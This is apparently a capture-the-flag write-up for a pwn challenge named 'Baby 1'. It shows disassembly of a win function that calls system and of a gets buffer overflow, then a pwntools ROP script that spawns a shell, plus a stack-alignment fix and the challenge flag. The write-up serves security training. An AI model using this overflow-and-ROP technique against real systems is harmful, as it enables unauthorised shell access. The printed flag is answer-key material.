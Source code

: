 # Baby 1

Categories: pwn baby pwned! <br/>
Description: When Swordfish came out, these were considered some state of the art techniques. Let's see if you have what it takes. <br/>
File: [baby1](baby1)

## Solution

The binary contains a `win` function that looks like this:

```
/ (fcn) sym.win 27
|   sym.win (char *arg1);
|           ; var char *string @ rbp-0x8
|           ; arg char *arg1 @ rdi
|           0x00400698      55             push rbp
|           0x00400699      4889e5         mov rbp, rsp
|           0x0040069c      4883ec10       sub rsp, 0x10
|           0x004006a0      48897df8       mov qword [string], rdi     ; arg1
|           0x004006a4      488b45f8       mov rax, qword [string]
|           0x004006a8      4889c7         mov rdi, rax                ; const char *string
|           0x004006ab      e8b0feffff     call sym.imp.system         ; int system(const char *string)
|           0x004006b0      90             nop
|           0x004006b1      c9             leave
\           0x004006b2      c3             ret
```

Moreover there is a `gets` call at the end of `main` which gives us a simple buffer overflow.

```
|           0x00400710      488d45f0       lea rax, [s]
|           0x00400714      4889c7         mov rdi, rax                ; char *s
|           0x00400717      b800000000     mov eax, 0
|           0x0040071c      e85ffeffff     call sym.imp.gets           ; char *gets(char *s)
|           0x00400721      b800000000     mov eax, 0
|           0x00400726      c9             leave
\           0x00400727      c3             ret
```

The following script worked locally but not on the remote target:

```python
from pwn import *

isRemote = args['REMOTE']

binary = './baby1'

context.binary = binary
elf = ELF(binary)

r = ROP(elf)
r.win(next(elf.search('/bin/sh')))

p = remote('baby-01.pwn.beer', 10001) if isRemote else elf.process()

print(p.recvuntil('input: '))
p.sendline('A' * 24 + str(r))
p.interactive()
```

The reason for this was that Ubuntu uses [Streaming SIMD
Extensions](https://en.wikipedia.org/wiki/Streaming_SIMD_Extensions) which require the stack to be aligned. Adding a
`ret` gadget solved the problem:

```python
r = ROP(elf)
r.raw(r.find_gadget(['ret']).address) # align the stack
r.win(next(elf.search('/bin/sh')))
```

Calling the `banner` function would have also fixed the alignment problem.
The flag was: `sctf{1.p0p_r3GIs73rS_2.pOp_5H3lL_3.????_4.pr0FiT}`

